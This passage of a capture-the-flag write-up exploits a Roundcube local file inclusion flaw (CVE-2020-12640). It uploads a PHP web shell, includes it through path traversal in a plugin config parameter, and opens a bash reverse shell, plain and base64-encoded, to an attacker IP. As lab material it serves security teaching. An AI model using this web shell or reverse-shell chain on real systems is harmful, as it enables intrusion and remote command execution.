 <img src="https://i.imgur.com/X7wLRI7.png"/>

<img src="https://i.imgur.com/EeNhNOd.png"/>

<img src="https://i.imgur.com/vKHUASA.png"/>

<img src="https://i.imgur.com/ZtsUjYW.png"/>

On searching for this exploit the LFI matched our scenario as we didn't have creds to login, it was assigned a CVE number `2020-12640`

<img src="https://i.imgur.com/KDj1yXw.png"/>

Searching for poc for this exploit lead me to a github repo of the exploit 

<img src="https://i.imgur.com/FRqlowL.png"/>

https://github.com/DrunkenShells/Disclosures/tree/master/CVE-2020-12640-PHP%20Local%20File%20Inclusion-Roundcube

<img src="https://i.imgur.com/ZnWA6ci.png"/>


<img src="https://i.imgur.com/NSQ4GJk.png"/>

To exploit this we need first upload a php file named `papers.php`  having the contents

```php
<?php system($_GET['cmd']); ?>

```

<img src="https://i.imgur.com/R4x9BC7.png"/>

This file gets uploaded in  `/var/www/html/oldmanagement/files/31234`, so path traversal in plugin name would be `../../../../../../../../../../../../../../../var/www/html/oldmanagement/files/31234/papers` , we can perform directory traversal in any plugin name we want 

<img src="https://i.imgur.com/Q7aNQu1.png"/>

Here I have selected `zipdownload` plugin, intercept the request on update config and in `_plugins_zipdownload` perform directory traversal 

<img src="https://i.imgur.com/JycjUVg.png"/>

And now going to any php file we can include the GET parameter which was `cmd` along with the command to be executed

<img src="https://i.imgur.com/IUKCKLm.png"/>

I used bash reverse shell by converting into base64 and decoding by piping and piping again to execute it through bash

```bash
bash -i >& /dev/tcp/10.10.14.43/2222 0>&1

echo 'L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQzLzIyMjIgMD4mMScK' | base64 -d | bash

```
